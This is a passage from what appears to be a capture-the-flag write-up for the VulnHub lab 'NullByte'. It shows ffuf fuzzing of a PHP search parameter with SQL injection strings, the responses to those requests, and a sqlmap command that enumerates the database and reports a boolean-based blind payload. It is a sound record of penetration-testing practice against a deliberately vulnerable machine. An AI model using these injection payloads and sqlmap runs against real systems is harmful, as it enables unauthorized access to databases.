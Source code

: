 			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.11/kzMb5nVYJw/420search.php?usrtosearch=FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/sqli/vulnCheck.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 3
	________________________________________________

	" OR 1 = 1 -- -         [Status: 200, Size: 168, Words: 33, Lines: 1]
	" OR "" = "             [Status: 200, Size: 168, Words: 33, Lines: 1]
	"                       [Status: 200, Size: 168, Words: 33, Lines: 1]
	#                             [Status: 200, Size: 224, Words: 33, Lines: 2]
	:: Progress: [42/42] :: Job [1/1] :: 54 req/sec :: Duration: [0:00:03] :: Errors: 3 ::
	```
	![](images/Pasted%20image%2020220203210327.png)
10. Enumerate the database w/ SQLMAP
	1. Enumerate database
		```
		┌──(root💀kali)-[~/vulnHub/NullByte/192.168.110.11/exploit]
		└─# sqlmap -r sqli.txt -p usrtosearch --dbs --output-dir=$(pwd)/sqlmap

		
		Parameter: usrtosearch (GET)
		Type: boolean-based blind
		Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
		Payload: usrtosearch=" AND 5195=5195#
